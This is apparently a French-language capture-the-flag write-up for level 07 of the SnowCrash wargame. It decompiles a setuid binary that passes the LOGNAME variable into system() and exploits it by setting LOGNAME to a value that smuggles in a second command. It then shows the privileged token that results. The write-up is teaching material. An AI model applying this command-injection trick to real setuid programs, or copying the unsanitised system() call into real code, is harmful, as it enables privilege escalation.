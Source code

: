 
# **Level 07**

Pour le level07, nous avons un executable dans le repertoire courant

```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Quand on l'execute le programme affiche `level07` tout le temps donc on decide de le decompiler pour l'analyser

```
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}

```

On en conclue que le programme affiche le contenue de la variable d'environnement `LOGNAME`, on peux donc la remplacer pour executer `getflag`

> en executant une autre commande apres echo
```
export LOGNAME=";getflag"
```

> Avec un subshell
```
export LOGNAME=$\('getflag'\)
```

Cela nous affiche

```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

> ### NEXT : [Level 08](/level08/resources/README.md)

